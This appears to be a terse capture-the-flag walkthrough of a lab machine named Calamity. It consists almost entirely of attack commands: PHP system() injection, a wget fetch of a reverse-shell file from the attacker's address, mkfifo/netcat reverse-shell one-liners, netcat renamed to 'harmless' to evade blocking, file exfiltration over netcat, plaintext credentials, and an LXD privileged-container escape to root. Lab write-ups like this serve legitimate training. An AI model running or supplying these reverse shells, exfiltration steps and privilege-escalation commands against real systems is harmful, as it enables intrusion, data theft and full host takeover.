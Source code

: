 **By: curl -v http://10.10.10.27/admin.php  
Account find:  
admin   
skoupidotenekes**  
**For POC:**   
```shell
<?php system('ls -lah') ?>
Permission denied:
<?php exec('wget http://10.10.14.11/revshell.php') ?>
```
**Try but fail by VM setting:**
```shell
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1234 >/tmp/f') ?>
Check useful information:
<?php system('ls -lah /home/xalvas') ?>
<?php system('cat /home/xalvas/intrusions') ?> 
```
**COPY nc Method:**
```shell
<?php system('which nc') ?>

<?php system('cp /bin/nc /dev/shm/harmless') ?> 
<?php system('chmod +x /dev/shm/harmless') ?>
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/dev/shm/harmless 10.10.14.11 1234 >/tmp/f') ?>
```
**Try copy out to listen(TBC as CTF style):
--------------------------------------------------------
```shell
/home/xalvas/recov.wav -> recov.wav

As nc blocked,
cp /bin/nc ~/nba
Kali: nc  -l -p 9090 > recov.wav
Remote:./nba -w3 10.10.14.11 9090 < recov.wav
```
--------------------------------------------------------

Then know "xalvas" password and login SSH:
18547936..*
Kail:
```shell
git clone https://github.com/saghul/lxd-alpine-builder.git
./build-alpine -a i686
```
#### SCP via SSH:
```shell
scp alpine-v3.9-i386-20190523_1714.tar.gz  xalvas@10.10.10.27:/tmp/
Password: 18547936..*
```
**Calamity:
```shell
xalvas@calamity:/tmp$ lxc image import alpine-v3.9-i386-20190523_1714.tar.gz --alias alpine
Image imported with fingerprint: 8e6c7cb2b5f1d8c52d8a4912c485984414a2e6954ce46c7f08b6a4e99caae6aa

xalvas@calamity:/tmp$ lxc init alpine alexcold -c security.privileged=true
Creating alexcold

xalvas@calamity:/tmp$ lxc config device add alexcold somedisk disk source=/ path=/mnt/root recursive=true
Device somedisk added to alexcold

Then start the docker:
xalvas@calamity:/tmp$ lxc start alexcold

xalvas@calamity:/tmp$ lxc exec alexcold --mode=interactive /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # ls -la
total 12
drwx------    2 root     root          4096 May 23 09:36 .
drwxr-xr-x   19 root     root          4096 May 23 09:34 ..
-rw-------    1 root     root            10 May 23 09:36 .ash_history
~ # cd /mnt/root/root
/mnt/root/root # ls
peda      root.txt  scr
/mnt/root/root # cat root.txt
9be653e014d17d1a54f9045e3220743c
```
